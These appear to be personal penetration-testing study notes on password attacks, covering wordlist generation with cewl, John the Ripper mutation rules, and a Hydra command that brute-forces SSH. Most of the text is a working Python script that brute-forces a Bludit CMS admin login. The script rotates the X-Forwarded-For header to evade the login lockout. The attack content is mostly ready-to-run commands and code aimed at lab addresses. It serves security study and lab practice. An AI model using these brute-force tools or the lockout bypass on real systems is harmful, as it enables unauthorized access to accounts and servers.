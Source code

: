 In general many pws under `/usr/share/worklists/`
# commond passwords available in kali
/usr/share/worklists/rockyou.txt

## unzip with
gunzip /usr/share/worklists/rockyou.txt.gz

# dictionary attack
* geneate wordlist by studying website, creates a file which contains works greater than six chars (-m6): `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`
* using John the Ripper to mutate the wordlist: `sudo nano /etc/john/john.conf`
We might just add a unique rule for JTR (see adding following text in code): 
```
# Wordlist mode rules
[List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words
...
# Try the second half of split passwords
-s x_
-s-c x_ M l Q
# [Adding following:]Add two numbers to the end of each password
$[0-9]$[0-9]
```
* run to mutate the list: `john --wordlist=bigTree-cewl.txt --rules --stdout > mutated.txt` 


# HYDRA

//using username “root” with a password list on ssh with 4 parallel tasks and verbose
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.0.13:22 -t 4 -V 

trying out hydra: with brute forcing ssh

#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
